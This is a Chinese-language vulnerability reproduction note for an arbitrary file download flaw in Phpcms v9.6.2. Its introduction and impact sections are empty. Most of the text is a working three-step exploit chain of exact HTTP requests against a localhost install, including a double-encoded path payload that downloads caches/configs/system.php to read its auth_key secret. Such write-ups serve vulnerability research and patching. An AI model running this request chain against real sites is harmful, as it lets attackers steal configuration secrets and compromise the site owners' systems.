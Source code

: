 Phpcms v9.6.2 任意文件下载
==========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

##### 第一步:进行如下请求获得YDVIB\_siteid的值。

请求：

    [GET]http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=wap&c=index&a=init&siteid=1

获得：

    [cookie]YDVIB_siteid:75d1XCnlbSh-1zi2xZ-gearAbSsmOcXypuSKXZst

##### 第二步:在\[POST DATA\] 中的userid\_flash参数的值设置为，第一步请求得到的YDVIB\_siteid参数的值，并进行如下请求。

请求：

    [GET] http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=attachment&c=attachments&a=swfupload_json&src=a%26i=1%26m=1%26catid=1%26f=./caches/configs/system.ph%253ep%2581%26modelid=1%26d=1&aid=1

    [POST DATA] userid_flash=75d1XCnlbSh-1zi2xZ-gearAbSsmOcXypuSKXZst

获得：

    [cookie] YDVIB_att_json:ea6fUlmiupVPoK2udMAztI7dpqUURRW1plemEGmRhGPocAvwWbcMk3BARFHzxLI4NJrV1IJQ2PaHeec790iDdhRJ9dJbhEKamgM55SwKR-F3fFmmWDOVuHnyiWg9kyMzQ2l9D_cRPQmM7P9e7ZYrESNQwjMOytrFTIhY4SFmK2Vjc3GS3g

##### 第三步:将GET请求中的a\_k参数的值设置为第二步请求获得的YDVIB\_att\_json参数的值，并进行如下请求。

请求：

    [get] http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=init&a_k=41f4VsAhLvN8-4L1ntgSsuga4BrvYA5zcDo2bjiYB7RI98Qzj5D5k8dqqBfo7cUNwF3TGhz1SH-vPs3lIIQJYwHeF_u2b3QVfD2HIO3Gay68TAtz2rqYhX8XIeznWrTtOI24418KZUoTEAfnY4kZNtIajW-bqHRV1djqmEc1hSAwkIYWA9CPrw

获得：

    http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=download&a_k=7e9d9SFk0jOteAemg-j7IVn6Ph1JFU9FEkyDo9xeasNJDPgZsOhusc39D4KiHzydJwt2B4iLuu-l9w03UV47obM9nsnjcJxi2jbawvqfZWcY9PeL3j0MgKxAvgXL4-dbf8gGG6_EJXIOA2p9Jkl9QcM

##### 最后点击"点击下载"的按钮进行如下请求，便可以下载/caches/configs/system.php文件，得到里面的'auth\_key'

    http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=download&a_k=7e9d9SFk0jOteAemg-j7IVn6Ph1JFU9FEkyDo9xeasNJDPgZsOhusc39D4KiHzydJwt2B4iLuu-l9w03UV47obM9nsnjcJxi2jbawvqfZWcY9PeL3j0MgKxAvgXL4-dbf8gGG6_EJXIOA2p9Jkl9QcM

![](resource/Phpcmsv9.6.2任意文件下载/media/rId28.png)

参考链接
--------

> <https://www.freebuf.com/column/158352.html>
